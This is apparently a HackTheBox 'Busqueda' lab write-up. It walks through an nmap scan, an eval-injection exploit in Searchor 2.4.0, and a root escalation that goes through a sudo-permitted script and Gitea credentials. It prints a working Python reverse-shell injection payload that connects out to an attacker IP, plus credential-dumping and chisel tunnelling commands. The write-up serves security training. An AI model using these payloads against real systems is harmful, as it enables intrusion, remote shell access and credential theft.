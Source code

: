 # HackTheBox - Busqueda

## NMAP

```bash
Nmap scan report for 10.10.11.208
Host is up (0.14s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PORT 80 (HTTP)

Visting the webserver, it redirects to `searcher.htb` , so let's add this domain in `/etc/hosts` file

<img src="https://i.imgur.com/WFGCQXp.png"/>
<img src="https://i.imgur.com/UG4CMb5.png"/>

<img src="https://i.imgur.com/Yp4cap6.png"/>

At bottom, we can see the version, `Searchor 2.4.0`

<img src="https://i.imgur.com/wI9waXO.png"/>

Searching for exploits realted to Searchror, there's remote code execution (RCE)

<img src="https://i.imgur.com/7g3ku0Y.png"/>

<img src="https://i.imgur.com/NburH7P.png"/>


## Foothold

From the commit in the github repository, we can see `eval` is being used which will evaluate anything as a valid code or will execute it

```python
', exec("import os;os.system('id')"))#
```

<img src="https://i.imgur.com/UMQYrDT.png"/>

From here on we can get a shell 

```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.92',2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"))#
```

<img src="https://i.imgur.com/yc9yBZp.png"/>

<img src="https://i.imgur.com/MrLpqRi.png"/>

After having a shell, stabilizing it to get a full tty with python3

<img src="https://i.imgur.com/10k9KNm.png"/>

Checking if we have ability to execute anything as a root or any other user with `sudo -l`

<img src="https://i.imgur.com/Tm7Bojt.png"/>

Looking at local running services, there's port 3000 open which is running an instance of `gitea`

<img src="https://i.imgur.com/ErEtlyZ.png"/>

<img src="https://i.imgur.com/TT3IbfV.png"/>

But it requires credentials so there's no use of moving there unless we have found credentials 

## Privilege Escalation (root)

From config file from `/var/www/app/.git` we can find the password for user cody on gitea which works for svc

<img src="https://i.imgur.com/zm6OpwH.png"/>

With `sudo -l` we can check what we can run

<img src="https://i.imgur.com/0p46QIl.png"/>

Running `system-checkup.py` as a root user, through this script we can run commands like `docker-ps`, `docker-inspect` and `full-checkup`

<img src="https://i.imgur.com/Cd810Sv.png"/>

<img src="https://i.imgur.com/WpFUyfu.png"/>

We can inspect the config file of mysql_db container

```bash
sudo -u 'root' /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

On Inpsecting the config file, we'll get both gitea and root mysql user's password

<img src="https://i.imgur.com/7hc9Ieq.png"/>

With gitea mysql user we can login to gitea database

<img src="https://i.imgur.com/ZkCrdjR.png"/>

Now that we have credentials, we can try logging on gitea by port forwarding port 3000

```bash
chisel client 10.10.14.92:3333 R:localhost:3000
chisel server -p 3333 --reverse 
```

<img src="https://i.imgur.com/LAYhvqd.png"/>

Logging in with cody's account, there's nothing there except for the Seracher_site repo which is just the site that we saw at the beginning

<img src="https://i.imgur.com/csnLUWe.png"/>

Using gitea database password, we can login as the administrator

<img src="https://i.imgur.com/vJCrzhX.png"/>

We have access to the scripts folder having those python scripts, so we can read what `system-checkup.py` script actually is doing

<img src="https://i.imgur.com/7K8abWN.png"/>

<img src="https://i.imgur.com/Q8YBuHJ.png"/>

<img src="https://i.imgur.com/jzHttNW.png"/>

From the `system-checkup.py` we can see that it's using subprocess to execute commands which is safe to use for executing system comamnds but if see the `full-checkup` command, it's using a script named `full-checkup.sh` and executing it, so we need to create a script named full-checkup.sh and put our reverse shell to get it executed

<img src="https://i.imgur.com/Mht5rjR.png"/>

<img src="https://i.imgur.com/WznkQXN.png"/>



## References

- https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303
- https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
- https://buildvirtual.net/how-to-use-docker-inspect/
